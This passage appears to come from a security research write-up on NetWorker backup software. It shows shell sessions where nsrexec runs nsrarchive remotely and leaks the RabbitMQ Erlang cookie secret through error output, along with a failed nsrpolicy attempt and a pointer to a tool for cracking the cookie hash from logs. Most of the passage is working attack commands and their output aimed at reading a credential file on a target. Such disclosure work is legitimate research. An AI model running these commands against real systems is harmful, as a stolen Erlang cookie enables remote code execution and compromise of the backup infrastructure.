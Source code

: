 Below is a quick demonstration of what dumping the Erlang cookie (`XXEKXJXWOSTUZKOFMHJG`) from a Linux host looks like:

```
[root@networker-client usr]# export RCMD="nsrarchive -f '/nsr/rabbitmq/.erlang.cookie' -T t ."
[root@networker-client usr]# nsrexec -c 192.168.121.238
89922 1613660453 1 5 0 2354841408 8608 0 networker-server nsrarchive NSR notice
74 \nFinished reading the annotation string; beginning the archive process.\n 0
87298 1613660453 2 5 0 2354841408 8608 0 networker-server nsrarchive NSR warning
48 Ignoring illegal external ASM name '%s' in '%s'. 2 0 20 XXEKXJXWOSTUZKOFMHJG 23 28 /nsr/rabbitmq/.erlang.cookie
```

```
[root@networker-client vagrant]# export RCMD="nsrarchive -I '/nsr/rabbitmq/.erlang.cookie' -T t ."
[root@networker-client vagrant]# nsrexec -c 192.168.121.238
89922 1613752006 1 5 0 1774774080 10825 0 networker-server nsrarchive NSR notice
74 \nFinished reading the annotation string; beginning the archive process.\n 0
89987 1613752066 2 5 0 1774774080 10825 0 networker-server nsrarchive NSR warning
48 Cannot determine the job ID: %s. Continuing ...  1 24 20 Connection timed out
87651 1613752066 5 1 2 1774774080 10825 0 networker-server nsrarchive SYSTEM critical
34 Cannot get status on path '%s': %s 2 23 20 XXEKXJXWOSTUZKOFMHJG 24 25 No such file or directory
98519 1613752066 2 5 0 1774774080 10825 0 networker-server nsrarchive NSR warning
47 Unable to setup direct save with server %s: %s. 2 12 16 networker-server 49 88 12289
54 archive services have not been enabled for client `%s' 1 12 16 networker-server
90018 1613752066 2 3 17 1774774080 10825 0 networker-server nsrarchive RAP warning
55 Cannot open a %s session with NetWorker server '%s': %s 3 20 10 nsrarchive 12 16 networker-server
49 88 12289 54 archive services have not been enabled for client `%s' 1 12 16 networker-server
```

With nsrpolicy, the Erlang cookie cannot be read directly due to file format limitations:
```
[root@networker-server ~]# export RCMD="nsrpolicy input-file -f /nsr/rabbitmq/.erlang.cookie"
[root@networker-server ~]# nsrexec -c 192.168.121.238
The syntax of this command is:
nsrpolicy input-file
 --file_name               -f <file name>
[--stop_on_error           -S <0/1; default:0 (Do not stop)>]
[--debug                   -D <debug level>]
[--help                    -h]
```

```
[root@networker-client ~]# export RCMD="nsrpolicy input-file -f C:\Windows\.erlang.cookie"
[root@networker-client ~]# nsrexec -c 192.168.121.183
The syntax of this command is:
nsrpolicy input-file
 --file_name               -f <file name>
[--stop_on_error           -S <0/1; default:0 (Do not stop)>]
[--debug                   -D <debug level>]
[--help                    -h]
```

However, we can leak the hash from RabbitMQ logs and crack it using [dedicated tools](https://github.com/gteissier/erl-matter):
